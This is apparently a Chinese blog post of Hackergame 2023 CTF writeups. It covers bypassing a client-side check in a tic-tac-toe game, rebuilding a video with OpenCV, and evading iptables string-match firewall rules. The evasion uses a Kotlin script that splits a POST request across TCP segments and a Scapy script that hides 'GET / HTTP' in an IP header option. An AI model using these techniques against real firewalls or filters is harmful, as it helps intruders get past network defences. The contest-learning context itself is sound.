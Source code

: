 ```yaml
---
title: 投机取巧向的 Hackergame 2023 Writeups
date: 2023-11-04 17:39:32
desc: "第一次完整参加 Hackergame！"
tags: [笔记,CTF]
---
```


{% asset_img 0-1.webp %}

基于巧合~~（交友不慎）~~，今年终于完整参加了一次 Hackergame。其实往年也有参加，不过当时还是高中，时间不太够，只是做下签到题草草了事。

[官方的 Writeups](https://github.com/USTC-Hackergame/hackergame2023-writeups) 其实已经比较完整了，这里写几题完成方法和官方不太相同（一般更简单）的 Writeups。点击题目标题可以跳转到题目和官方题解。

### [赛博井字棋](https://github.com/USTC-Hackergame/hackergame2023-writeups/tree/master/official/%E8%B5%9B%E5%8D%9A%E4%BA%95%E5%AD%97%E6%A3%8B)

通过观察方法 `setMove(x, y)` 发现判断棋盘非空的逻辑在本地：

```javascript
async function setMove(x, y) {
  if (board[x][y] != 0) { // 注意这里
    return;
  }
  if (frozen) {
    return;
  }
  let url = window.location.href; // 获取当前 URL
  let data = { x: x, y: y }; // 设置要发送的数据
  return fetch(url, {
    method: "POST", // 设置方法为 POST
    headers: {
      "Content-Type": "application/json", // 设置内容类型为 JSON
    },
    body: JSON.stringify(data), // 将数据转换为 JSON 格式
  }).catch(errorHandler);
}
```

在 Chrome 中，直接右键 JS 资源，复写这个文件并把判断代码删除即可。

{% asset_img 1-1.webp %}

### [🪐 流式星球](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%F0%9F%AA%90%20%E6%B5%81%E5%BC%8F%E6%98%9F%E7%90%83)

我不是很懂为什么你们题目的代码都用 OpenCV 了，题解不是 OpenCV（

```python
import cv2
import numpy as np

def restore_video(bin_file, restored_video, frame_width, frame_height, frame_count):
    buffer = np.fromfile(bin_file, dtype=np.uint8)
    total_pixels = buffer.size // 3
    padding_needed = np.prod((frame_count, frame_height, frame_width, 3)) - buffer.size
    buffer = np.pad(buffer, (0, padding_needed), mode='constant')
    buffer = buffer.reshape((frame_count, frame_height, frame_width, 3))
    fourcc = cv2.VideoWriter_fourcc(*'XVID')
    out = cv2.VideoWriter(restored_video, fourcc, 60.0, (frame_width, frame_height))
    for i in range(frame_count):
        out.write(buffer[i])
    out.release()

if __name__ == "__main__":
    frame_width = 427
    frame_height = 759
    frame_count = 9999
    restore_video("video.bin", "restored_video.mp4", frame_width, frame_height, frame_count)
```

### [Komm, süsser Flagge](https://github.com/USTC-Hackergame/hackergame2023-writeups/tree/master/official/Komm%2C%20s%C3%BCsser%20Flagge)

**我的 POST**

通过观察规则 `-A myTCP-1 -p tcp -m string --algo bm --string "POST" -j REJECT --reject-with tcp-reset` 容易得到我们不能在数据包中包含 `POST` 这个字符串，很自然想到拆分成两个数据包。但是一开始使用 `nc` 等工具发现这并做不到，可能 `nc` 还是将他们放在了一个数据包里。这里用 Kotlin 进行简单实现：

```kotlin
fun main() {
    val data = "POST / HTTP/1.1\r\n" +
            "Cookie: GET / HTTP\r\n"+
            "Host: 202.38.93.11\r\n" +
            "Content-Length: 100\r\n\r\n"+
            "YOURTOKEN\r\n";
    Socket().use { socket ->
        socket.connect(InetSocketAddress(InetAddress.getByName("202.38.93.111"), 18080));
        Thread.sleep(1000);
        socket.getOutputStream().write(data.toByteArray(),0,3)
        Thread.sleep(1000);
        socket.getOutputStream().write(data.toByteArray(), 3, data.length - 3)
        socket.getInputStream().bufferedReader().lines().forEach {
            println(it)
        }
    }
}
```

**我的 P**

题都没看，直接试了一下，把上面的 `18080` 改成 `18081` 即可获取 flag。

**我的 GET**

通过观察规则：

```shell
-A myTCP-3 -p tcp -m string --algo bm --from 0 --to 50 --string "GET / HTTP" -j ACCEPT
-A myTCP-3 -p tcp -j REJECT --reject-with tcp-reset
```

容易得到服务器只接受前 50 字节包含 `GET / HTTP` 的数据包。网上查了很多资料，一开始想到用 TFO (TCP Fast Open)，但是迫于我可怜的寄网知识，不是很懂。后来在研究 IP 数据包的 Header 的时候发现有一个区域叫 [Options](https://en.wikipedia.org/wiki/Internet_Protocol_version_4#Options)，似乎可以让我们塞一些东西，所以就有了以下代码：

```python
from scapy.all import *
from scapy.layers.inet import IP, TCP, IPOption

def tcp_test(ip, port, data):
    # 第一次握手，发送SYN包
    # 请求端口和初始序列号随机生成
    p1 = IP(dst=ip,
            options=[IPOption(b'\x88\x0E\x00\x00\x47\x45\x54\x20\x2f\x20\x48\x54\x54\x50')]) / TCP(dport=port, sport=RandShort(), seq=RandInt(), flags='S')
    ans = sr1(p1, verbose=True)
    print(ans)
    # 假定此刻对方已经发来了第二次握手包：ACK+SYN
    sport = ans[TCP].dport
    s_seq = ans[TCP].ack
    d_seq = ans[TCP].seq + 1
    # 第三次握手，发送ACK确认包，顺带把数据一起带上
    print(sr1(IP(dst=ip, options=[IPOption(b'\x88\x0E\x00\x00\x47\x45\x54\x20\x2f\x20\x48\x54\x54\x50')]) / TCP(dport=port, sport=sport, ack=d_seq, seq=s_seq, flags='A') / data, verbose=True))

if __name__ == '__main__':
    data = 'POST / HTTP/1.1\r\n'
    data += 'Host: 202.38.93.111\r\n'
    data += 'Content-Length: 100\r\n'
    data += 'Accept: text/html\r\n\r\n'
    data += 'YOURTOKEN\r\n'
    tcp_test("202.38.93.111", 18082, data)
```

其中 `\x47\x45\x54\x20\x2f\x20\x48\x54\x54\x50` 部分就是 `GET / HTTP`，前面几个字节是 `Copied`、`Option Class`、`Option Number`，我也不是很懂，随便找了个看起来能塞足够长内容的类型——`136/0x88 Stream ID`，然后就可以发包了。

但是，这时候，通过 Wireshark，你很可能发现你的包要不就是没发出去，要不就是服务器返回握手包之后直接被 RST，再次[查了一堆资料](https://stackoverflow.com/questions/9058052/unwanted-rst-tcp-packet-with-scapy)之后，可以发现是内核认为这个数据包有问题，帮我们自动发送了 RST。于是，这时候就该使用题目中提供的 OpenVPN 了。

{% asset_img 2-1.jpg %}

---

其他题目的解法我都基本和官方一样，不再赘述。
